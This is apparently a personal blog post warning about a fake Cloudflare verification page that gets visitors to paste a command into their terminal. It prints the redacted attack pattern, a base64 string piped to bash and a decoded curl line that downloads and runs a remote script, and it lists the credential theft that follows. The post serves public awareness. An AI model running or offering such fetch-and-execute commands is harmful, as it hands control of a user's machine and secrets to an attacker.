


<!------------------------- REFERENCE LINKS BLOCK ----------------------------------->
[TODO]: some-link
<!----------------------- END REFERENCE LINKS BLOCK --------------------------------->

Watch Out For This Malware
==========================
Spreading the word about a nasty new phishing scam



> 🚨 BLUF: there's a clever new malware posing as a Cloudflare "verify you're human" page. If you do what this malware wants, it will steal everything on your computer.
> 
> DO NOT EVER run anything from a website in your terminal! There's no legitimate reason to do so, unless you're a coder and know what you're doing.

Yesterday I followed a link on a Harvard Health article and was presented with this official-looking screen:



_Website blocked out because I'm unsure if they're part of the malware, or just a victim._

I knew [Cloudflare has beef with AI companies](https://www.forbes.com/sites/johnwerner/2025/07/12/cloudflare-gives-ai-bot-companies-ultimatum/) so my subconscious figured this must be part of their war. Right as I mindlessly clicked "Copy", two huge red flags burst into my consciousness:

1. Why is Cloudflare asking me to run things in the terminal??
2. The supposed text to run wouldn't actually _do_ anything on the terminal.

Curious, I checked to see what I'd actually copied:

```
echo "<bunch of base64 I'm censoring for safety>" | base64 -d | bash
```

Suuuuper sketchy... some opaque encoded stuff is getting executed directly in `bash`. Very unlikely Cloudflare would do this, unless they pushed some very boneheaded feature recently.

What's inside that encoded stuff? Running just the decode step gives me:

```
curl -s http://<a totally random URL>/some/file.php | nohup bash &
```

_Again, censoring for safety._

So it would download a random file from a random server, and then run it with `bash`. I knew at this point that this isn't Cloudflare; it's malware.

My heebie-jeebies went into overdrive, and I closed the tabs before I accidentally ran anything like the full command.

> 🧠 Let me tell you: coffee's stimulant effects have nothing on the knowledge that if you copy-paste wrong, your computer will be enslaved to something straight out of Cthulhu's asshole.

I then Googled to see if anyone else had seen this.

Turns out [this security researcher has](https://cyooda.com/blog/highly-malicious-macos-infostealer), and he did the work of figuring out what that PHP file would have done:

- Copy the passwords in my Mac keychain
- Copy the cookies from my browsers
- Copy credentials to crypto wallets on my machine
- Send it all to a remote server

Scary stuff.

I reported both sites to Google Safe Browsing and closed everything out.

But I couldn't resist one last little investigation: who owns this domain?

I did a `whois` on the domain, and...

...it's registered with [this Japanese domain registrar](https://en.wikipedia.org/wiki/GMO_Internet), but the registrant is hidden. Boo.

That the trail leads back to Asia has me guessing it's either Chinese or North Korean in origin.

North Korea's cyber warfare groups are [notoriously aggressive in stealing crypto given the country has no real economy to speak of](https://observer.com/2025/04/how-north-korea-became-a-cybercrime-superpower-without-internet-access/), and the script stores its stolen credentials in a directory called `lovemrtrump`.

Could this be a nod to North Korea ↔ Trump relations? Or maybe a total red herring.

Regardless, I got chills knowing that a single line of text with such destructive power was still in my clipboard.

---

A few years back I wrote a guide on how normal people can stay safe on the internet.

I still follow it, and one of my recommendations there - [1Password](https://1password.com/)- would have partially protected me even if I'd run the malware.

If you want to build your own cyber defenses to Good Enough, you'll probably be interested in the guide: [Cybersecurity 101](https://mieubrisse.substack.com/p/cybersecurity-101).

And if this post was useful to you, consider subscribing for more posts designed to make your life better:

TODO SUBSCRIBE BUTTON

<!------------------ IG POST DESCRIPTION --------------------->
<!--
TODO

🐒 Full article at link in bio.
-->
